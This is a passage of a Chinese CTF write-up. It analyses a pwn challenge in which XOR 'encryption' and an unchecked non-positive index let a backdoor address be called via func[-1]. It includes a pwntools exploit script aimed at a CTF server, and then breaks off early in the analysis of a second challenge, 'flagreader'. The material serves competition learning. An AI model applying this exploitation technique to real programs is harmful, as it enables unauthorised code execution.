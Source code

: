 3.理清了程序执行功能的逻辑，再来看每个功能。这题最关键的事encrypt，我在这里就自分析这个。
#### encrypt分析
![image-20250524201727975](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524201727975.png)
1.首先会往abcd这里读入0x50字节的数据。
2.然后会对这些数据作加密处理，而加密的方式是与某个数组中的一个数，按位异或。
3.知道按位异或的作用，a^b=c ==> a=b^c,因此，加密的结果再加密，就是原值。
4.用来加密的数组就是funcs图中的s1yner
5.abcd同样位于data段，并且里funcs很近。
#### 思路分析
1.第一个想法是通过Encrypt中的溢出，覆盖掉funcs的函数，为backdoor(题目留的后门函数，可以cat flag)。但是只有0x50字节，不够，只能刚好写满abcd那个数组。这里意识到，我们只能把后门写在abcd这个数组上。所以应该考虑有没有办法，访问到这里呢？
2.继续回去观察main函数，看到输入后会检测v3是否大于3。也就是小于等于3，都是合法的输入。试想，如果输入0，那么最后就是`func[-1]()`,也就是会调用我们最后输入的8字节的地址。因此，我们可以输入0 和 负数，来访问abcd上的地址。只要对应上。
3.那接下来就是解决，加密的问题。很简单，将log_level设置为debug，发送正常的backdoor地址，看看返回的加密内容是什么。然后手敲一下backdoor的地址，把加密后的内容作为原文发送，那么正确的地址就会在加密后被写上去。

### gdb分析
#### 加密内容获取
![image-20250524203433694](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524203433694.png)
1.直接发送p64(backdoor)，查看加密的内容。
2.从后往前数，因为后面紧跟的是`1.Encrupt......`，从0x31 往前数8个字节，就是我们要的内容，然后直接发这个就行。

### exp
```python
from pwn import *
context.log_level='debug'
mode=0
url='43.139.51.42'
port=38403
if mode==0 :
	io=process("./secret")
else:
	io=remote(url,port)
	
backdoor=0x4014a7
offset=0x40

key=["s","1","n","y","e","r"]
#
payload=offset*b'a'
#payload+=p64(backdoor)
payload+=b'\xc2\x66\x33\x31\x6e\x79\x65\x72'
gdb.attach(io)
io.sendlineafter(">>","1")
io.send(payload)

io.interactive()
```
## flagreader
### ida分析
#### main函数分析
![image-20250524204127748](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524204127748.png)
1.开幕雷击，直接就是一个gift给我们。显然是一个地址，可能需要这个地址泄露一些东西。
2.同时还有两个函数，一个readflag，一个vuln。直接跟进。
#### readflag函数分析
![image-20250524204334952](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524204334952.png)
![image-20250524204424654](https://gitee.com/jiang-xunpan/my_pic/raw/master/img/image-20250524204424654.png)